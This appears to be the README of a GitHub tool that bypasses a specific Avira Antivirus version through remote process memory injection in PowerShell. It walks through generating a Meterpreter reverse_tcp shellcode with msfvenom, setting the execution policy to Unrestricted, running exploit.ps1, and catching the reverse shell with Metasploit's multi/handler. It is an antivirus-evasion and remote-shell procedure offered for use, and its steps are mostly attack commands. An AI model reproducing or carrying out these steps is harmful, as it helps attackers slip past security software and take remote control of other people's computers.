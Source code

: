 # Bypass-Avira_Antivirus - Memory Evasion via Remote Process Memory Injection (Powershell)

Description

 Bypass Avira Antivirus version 15.0.34.16-17570 using memory evasion techniques, specifically remote process memory injection. By using this technique, it becomes possible to execute a custom shellcode undetected by Avira Antivirus

Usage

1. Download Avira Antivirus version 15.0.34.16-17570: The software can be downloaded from [this link](https://www.filepuma.com/download/avira_free_antivirus_15.0.34.16-17570/download/).

2. Create a custom shell using Metasploit's msfvenom:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<port_you_listen> -f powershell

3. Insert the generated shellcode into exploit.ps1.

4. Before running the script, check the current Execution Policy:

powershell Get-ExecutionPolicy -Scope CurrentUser

5. If necessary, set the Execution Policy to Unrestricted:

powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

6. Check the Execution Policy again to ensure it has been set correctly.

7. Execute the exploit by running exploit.ps1 in Powershell:

powershell ./exploit.ps1

8. Listen for the incoming shell using Metasploit:

msfconsole

use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST <your_ip>

set LPORT <port_you_listen>

run
